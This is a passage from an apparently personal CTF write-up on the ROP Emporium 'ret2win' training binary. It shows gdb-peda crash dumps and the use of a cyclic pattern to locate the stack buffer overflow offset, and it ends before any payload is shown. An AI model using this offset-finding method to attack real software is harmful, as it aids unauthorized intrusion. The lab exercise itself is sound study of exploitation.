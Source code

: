 ```text
   0x400812 <ret2win+1>:	mov    rbp,rsp
   0x400815 <ret2win+4>:	mov    edi,0x4009e0
   0x40081a <ret2win+9>:	mov    eax,0x0
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdd58 ("AAAAAAAAA")
0008| 0x7fffffffdd60 --> 0x400041 --> 0x4000000005000000 
0016| 0x7fffffffdd68 --> 0x7ffff7df7223 (<__libc_start_main+243>:	mov    edi,eax)
0024| 0x7fffffffdd70 --> 0x0 
0032| 0x7fffffffdd78 --> 0x7fffffffde48 --> 0x7fffffffe1b4 ("/home/w3ndige/hacking/rop_emporium/ret2win/ret2win")
0040| 0x7fffffffdd80 --> 0x100000000 
0048| 0x7fffffffdd88 --> 0x400746 (<main>:	push   rbp)
0056| 0x7fffffffdd90 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000400810 in pwnme ()
```

We can see that that input caused segmentation fault. But as I'm using `peda` extension to `gdb`, I decided to check out patterns, that I recently learned about. 

We can create a pattern and save it as input, then feed it into the binary and lastly check how this pattern behaved and at which characters our application crashed. Peda is even smart enough to analyze it for us. 

```text
gdb-peda$ pattern_create 50 input
Writing pattern of 50 chars to filename "input"
```

With this command, we have created a pattern of 50 characters names as input. 

```text
gdb-peda$ r < input
Starting program: /home/w3ndige/hacking/rop_emporium/ret2win/ret2win < input
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> 
Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffdd30 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
RBX: 0x0 
RCX: 0xfbad2088 
RDX: 0x7fffffffdd30 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
RSI: 0x7ffff7f93730 --> 0x0 
RDI: 0x7fffffffdd31 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
RBP: 0x6141414541412941 ('A)AAEAAa')
RSP: 0x7fffffffdd58 ("AA0AAFAAb")
RIP: 0x400810 (<pwnme+91>:	ret)
R8 : 0x0 
R9 : 0x77 ('w')
R10: 0x602010 --> 0x0 
R11: 0x246 
R12: 0x400650 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffde40 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
```